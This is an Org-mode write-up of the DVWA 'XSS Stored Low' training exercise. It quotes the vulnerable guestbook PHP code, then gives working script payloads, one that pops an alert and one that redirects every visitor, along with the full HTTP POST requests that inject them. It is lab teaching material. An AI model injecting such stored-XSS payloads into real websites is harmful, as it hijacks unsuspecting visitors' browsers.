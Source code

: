 #+TITLE: DVWA - XSS Stored Low
#+AUTHOR: Leonardo Tamiano

* Goal
  The goal is to redirect everyone to a web page of your choosing.
  
* Description
  We're presented with a form that allows us to insert two
  information, a ~name~ and a ~message~.

  The code is the following one

  #+begin_src php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
  #+end_src
  
* Solution
  As we can see from the code, there's a lot of sanitization when it
  comes to interacting with the SQL database, but there's no
  sanitization when it comes to XSS.

  This means we can use the following payload

  #+begin_src html
<script> alert(1); </script>
  #+end_src

  which is sent in the following HTTP request
  
  #+begin_example
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: evil
Content-Length: 89
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_s/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=6jfjn0keu8uc3cijtk2hs3a505; security=low
Connection: close

txtName=hi&mtxMessage=%3Cscript%3E+alert%281%29%3B+%3C%2Fscript%3E&btnSign=Sign+Guestbook
  #+end_example

  If we're interested in redirecting the users of the website into
  another site, the payload to use is the following 

  #+begin_src html
<script> window.location.replace("https://leonardotamiano.xyz"); </script>
  #+end_src
  
  which is encoded in the following HTTP request

  #+begin_example
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: evil
Content-Length: 123
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_s/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=6jfjn0keu8uc3cijtk2hs3a505; security=low
Connection: close

txtName=hi&mtxMessage=<script>+window.location.replace("https%3a//leonardotamiano.xyz")%3b+</script>&btnSign=Sign+Guestbook
  #+end_example

